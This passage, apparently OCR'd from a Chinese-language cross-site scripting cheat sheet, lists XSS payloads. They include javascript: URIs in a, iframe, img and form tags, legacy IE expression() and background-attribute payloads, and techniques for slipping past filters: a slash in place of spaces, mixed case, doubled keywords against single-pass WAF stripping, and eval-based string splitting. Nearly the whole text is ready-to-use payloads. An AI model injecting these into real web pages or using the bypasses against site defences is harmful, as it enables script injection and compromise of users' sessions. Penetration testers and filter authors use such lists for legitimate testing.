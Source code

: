 `<a>`标签

    <a href="javascript:alert(`xss`);">xss</a>

`<iframe>`标签

    <iframe src=javascript:alert('xss');></iframe>

`<img>`标签

    <img src=javascript:alert('xss')>//IE7以下

`<form>`标签

    <form action="Javascript:alert(1)"><input type=submit>

### 其它

expression 属性

    <img style="xss:expression(alert('xss''))"> // IE7以下
    <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
    <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

background 属性

    <table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效

# 有过滤的情况下

## 过滤空格

用`/`代替空格

<img/src\="x"/onerror\=alert("xss");\>

## 过滤关键字

### 大小写绕过

<ImG sRc\=x onerRor\=alert("xss");\>

### 双写关键字

有些 waf 可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

<imimgg srsrcc\=x onerror\=alert("xss");\>

### 字符拼接

利用 eval

<img src\="x" onerror\="a=\`aler\`;b=\`t\`;c='(\`xss\`);';eval(a+b+c)"\>

